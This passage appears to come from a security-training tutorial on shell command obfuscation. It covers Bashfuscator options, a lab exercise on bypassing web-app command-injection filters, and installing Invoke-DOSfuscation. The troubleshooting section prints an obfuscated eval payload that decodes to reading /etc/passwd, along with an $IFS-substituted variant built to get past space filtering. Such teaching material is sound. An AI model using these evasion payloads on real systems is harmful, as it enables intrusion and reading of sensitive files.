 ### Key Bashfuscator Flags

| Flag | Description | Usage |
|------|-------------|-------|
| `-c` | Command to obfuscate | `--command 'whoami'` |
| `-s` | Size parameter (1-6) | `-s 1` (smallest) |
| `-t` | Time parameter (1-6) | `-t 1` (fastest) |
| `--no-mangling` | Disable identifier mangling | Cleaner output |
| `--layers` | Number of obfuscation layers | `--layers 1` |
| `-l` | List available techniques | View all mutators |

### Web Application Testing

**Exercise Challenge:** Try testing the obfuscated command with our web application to see if it can successfully bypass the filters.

**Potential Issues:**
- **Space characters** in obfuscated payload
- **Special characters** that may be filtered
- **Payload length** restrictions

**Troubleshooting:**
```bash
# If spaces are filtered, replace with tabs or $IFS
# Original obfuscated command:
eval "$(W0=(w \  t e c p s a \/ d);for Ll in 4 7 2 1 8 3 2 4 8 5 7 6 6 0 9;{ printf %s "${W0[$Ll]}";};)"

# Modified for web application:
eval$IFS"$(W0=(w$IFS\$IFS$IFSt${IFS}e${IFS}c${IFS}p${IFS}s${IFS}a$IFS\/${IFS}d);for${IFS}Ll${IFS}in${IFS}4${IFS}7${IFS}2${IFS}1${IFS}8${IFS}3${IFS}2${IFS}4${IFS}8${IFS}5${IFS}7${IFS}6${IFS}6${IFS}0${IFS}9;{${IFS}printf${IFS}%s${IFS}"${W0[$Ll]}";};)"
```

---

## Windows (DOSfuscation)

> **🪟 Windows Command Obfuscation:** Interactive tool for Windows environments

### Installation

There is a very similar tool for Windows called **DOSfuscation**. Unlike Bashfuscator, this is an **interactive tool** - we run it once and interact with it to get the desired obfuscated command.

```powershell
# Clone the repository
git clone https://github.com/danielbohannon/Invoke-DOSfuscation.git

# Navigate to directory
cd Invoke-DOSfuscation

# Import the PowerShell module
Import-Module .\Invoke-DOSfuscation.psd1

# Launch the interactive tool
Invoke-DOSfuscation
```
